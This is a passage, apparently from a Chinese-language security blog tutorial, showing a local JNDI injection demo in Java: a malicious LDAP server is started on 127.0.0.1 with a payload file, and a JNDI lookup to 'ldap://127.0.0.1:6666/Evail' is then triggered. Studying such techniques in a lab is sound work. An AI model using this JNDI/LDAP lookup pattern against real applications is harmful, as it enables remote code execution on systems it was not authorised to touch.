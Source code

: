 然后传进 ldapserver

```bash
java -jar LDAPServer.jar 127.0.0.1 1.txt
```

[![](assets/1708870136-e8c2230f8729f3edc80fcc91e0eaff0a.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121936.png)​

然后直接去 JNDI 查询

```bash
SayHello sayHello = (SayHello)initialContext.lookup("ldap://127.0.0.1:6666/Evail");
```

[![](assets/1708870136-8733b5c787f9f44eca2a0653f113c648.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121512.png)​
